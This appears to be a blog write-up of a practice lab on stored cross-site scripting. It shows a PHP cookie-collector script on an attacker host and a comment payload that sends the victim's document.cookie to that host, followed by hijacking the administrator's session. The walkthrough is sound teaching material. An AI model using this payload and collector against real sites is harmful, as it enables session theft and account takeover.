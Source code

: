 ```yaml
---
layout: default
title : muzec - Exploiting Cross-site Scripting To Steal Cookies 
---
```



### Description

In this lab you can practice XSS attacks against a web application hosted at the address 192.168.99.10. Since the application allows registered users to add comments, we have already created an account on the application. The credentials of this account are:

We have our create credentials already;

```
 Username: attacker
 Password: attacker
```

Let assume we have created and webpage which is own by the attacker we can use it to receive stolen cookies! You can find it at http://192.168.99.11/get.php : it takes all parameters passed via GET and stores them into the jar.txt file.

Backend get.php code;

```
<?php
$cookie=$_GET["cookie"];
$steal=fopen("jar.txt","a");
fwrite($steal,$cookie."\n");
fclose($steal);
?>
```

### Our Goals

The administrator visits the application every few minutes. The final goal of the lab is to steal the administrator cookies via XSS. Once you have these cookies you should be able to access the content of the page admin.php.

### Tools

Best tools is our brain yes i repeat our brain also we need a web browser lol.

### Engaging Target


![image](https://user-images.githubusercontent.com/69868171/139687734-a31c3b54-e15d-4284-b5f5-731da9506d8c.png)

Now let log in with our created credentials.

![image](https://user-images.githubusercontent.com/69868171/139687893-b4058404-efec-4418-b563-b85521c2864c.png)

We are in looking around we have a search form also a blog when we can comment and a contact page to to contact the administrator of the blog first thing first let try the search form with a simple XSS payload.

```
<script>alert("XSS");</script>
```

![image](https://user-images.githubusercontent.com/69868171/139688668-614ee990-4cfe-42b9-ba59-5fd0d6014e9c.png)

Boom a pop up we now know the search form is vulnerbale to XSS but need a form that can store our payload let the the blog page with the comment form.

![image](https://user-images.githubusercontent.com/69868171/139689067-896433e5-29ad-43dc-9826-e345acfac6cb.png)

I try injecting the XSS payload but seems the form is not vulnerable.

![image](https://user-images.githubusercontent.com/69868171/139689241-9f71ebf1-6d64-45ee-b796-25d0dd9f4124.png)

Now let move to the contact page to try our luck.

![image](https://user-images.githubusercontent.com/69868171/139689429-9ffb1ef8-2bdb-47bd-8e1a-c46636c85fa2.png)

We can see it store customer feedbacks cool now let injecting our XSS payload to grab the admin cookie between i already test it with the simple XSS payload that pop up so we know it vulnerable to XSS already.

![image](https://user-images.githubusercontent.com/69868171/139689795-47a2bb5c-016e-42dd-ba7e-6074e0e945e3.png)

```
<script> var i = new Image(); i.src="http://192.168.99.11/get.php?cookie="+escape(document.cookie)</script>
```

Now let submit it and our attacker site to recieve cookie is set already.

![image](https://user-images.githubusercontent.com/69868171/139690140-224c7151-f0c3-435a-8b8f-6a94aaa8ec47.png)

NOTE:- we know the administrator visits the application every few minutes. so anytime he visit the contact page we should able to get is session cookie on the jar.txt.

![image](https://user-images.githubusercontent.com/69868171/139690902-4832421e-66d0-4eae-80e7-dbdbf9b19e97.png)

To confirm our payload i visit the contact page and i got my cookie when checking the `jar.txt` hosted by us (attacker) .


![image](https://user-images.githubusercontent.com/69868171/139691184-13a6a68a-5046-4ee9-b567-4e5c90cb8503.png)

Boom and we finally got the admin session cookie now let edit our cookie to the admin cookie.

![image](https://user-images.githubusercontent.com/69868171/139691396-46125aae-2d5b-4e13-ad29-b83684eca26a.png)

We are admin hahahahaha cool right??

![image](https://user-images.githubusercontent.com/69868171/139691516-8671551c-7b78-4fb9-9911-d212fd0b471e.png)


Hope you learn one or two from my article.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
